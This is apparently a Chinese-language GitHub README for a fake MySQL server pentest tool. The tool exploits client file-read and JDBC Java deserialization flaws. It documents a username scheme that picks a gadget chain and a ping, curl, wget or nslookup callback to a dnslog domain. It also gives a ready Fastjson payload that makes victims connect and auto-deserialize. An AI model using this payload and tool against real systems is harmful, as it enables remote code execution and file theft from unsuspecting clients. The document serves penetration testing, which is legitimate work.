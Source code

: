# MySQL Fake Server
[ENGLISH](README_EN.md)|简体中文

用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## DNSLOG魔改说明

用户名：`d_[反序列化链简称]_[探测方式]_[dnslog的ID]`

反序列化链有：cb1-cb2，cc1-cc10 等都可以

探测方式：

- p：ping
- c：curl
- w：wget
- n：nslookup

在config.json中配置dnslog域名，并给一个ID值，例如ID是q2z1p8

```json
	"dnslog":{
        "q2z1p8":"q2z1p8.dnslog.cn"
    }
```

例如：`d_cb1_p_q2z1p8`，意思是使用CB1链执行ping命令，探测q2z1p8.dnslog.cn域名

效果：

```json
{"x":{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"xx.xx.xx.xx","portToConnectTo":3306,"info":{"user":"d_cc4_p_q2z1p8","password":"ubuntu","useSSL":"false","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"},"databaseToConnectTo":"mysql","url":""}}
```